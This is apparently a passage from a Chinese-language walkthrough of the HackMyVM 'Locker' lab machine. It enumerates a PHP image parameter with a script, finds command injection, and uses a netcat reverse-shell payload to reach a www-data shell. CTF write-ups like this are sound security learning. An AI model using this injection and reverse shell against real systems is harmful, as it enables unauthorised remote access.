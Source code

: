 ```plaintext
http://192.168.56.111/locker.php?image=3
```

只有一个参数点：`image` ，编写脚本进行扫描

```python
import requests

base_url = "http://192.168.56.111/locker.php?image="

for i in range(0, 10):
    res = requests.get(base_url + str(i)).text
    with open("./" + str(i), "w+") as f:
        f.write(res)
```

发现只有编号 1，2，3 有返回数据，尝试对图像数据进行分析，并未发现存在图像隐写

尝试对参数点进行 fuzz，发现存在命令执行

```shell
┌─[randark@randark-Parrot]─[~/tmp/HackMyVM-Locker]
└──╼ $http get http://192.168.56.111/locker.php?image=;pwd
HTTP/1.1 200 OK
Connection: keep-alive
Content-Encoding: gzip
Content-Type: text/html; charset=UTF-8
Date: Thu, 28 Dec 2023 10:07:25 GMT
Server: nginx/1.14.2
Transfer-Encoding: chunked

<img src="data:image/jpg;base64,"width="150"height="150"/>

/home/randark/tmp/HackMyVM-Locker
```

尝试直接反弹 shell

```plaintext
http://192.168.56.111/locker.php?image=;nc%20192.168.56.102%209999%20-e%20/bin/bash;
```

成功得到 shell

```plaintext
┌─[randark@randark-Parrot]─[~]
└──╼ $pwncat-cs -lp 9999
[18:12:43] Welcome to pwncat 🐈!                                                                                                                                                                                            __main__.py:164
[18:13:14] received connection from 192.168.56.111:60486                                                                                                                                                                         bind.py:84
[18:13:15] 192.168.56.111:60486: registered new host w/ db                                                                                                                                                                   manager.py:957
(local) pwncat$ back
(remote) www-data@locker:/var/www/html$ whoami
www-data
```
